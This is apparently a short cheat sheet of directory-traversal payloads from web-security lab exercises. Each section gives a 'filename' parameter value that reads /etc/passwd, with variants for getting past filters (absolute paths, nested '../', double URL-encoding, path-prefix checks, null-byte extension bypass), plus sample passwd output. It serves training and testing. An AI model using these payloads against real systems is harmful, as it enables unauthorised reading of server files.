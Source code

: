 # Directory Traversal

## File path traversal, simple case
```
image?filename=../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

## File path traversal, traversal sequences blocked with absolute path bypass
```
image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively
```
?filename=....//....//....//etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode
```
?filename=..%252f..%252f..%252fetc/passwd
# Decodes to ..%2f..%2f..%2fetc/passwd
```

## File path traversal, validation of start of path
```
?filename=/var/www/images/../../../etc/passw
```

## File path traversal, validation of file extension with null byte bypass
```
?filename=../../../etc/passwd%00.jpg
```
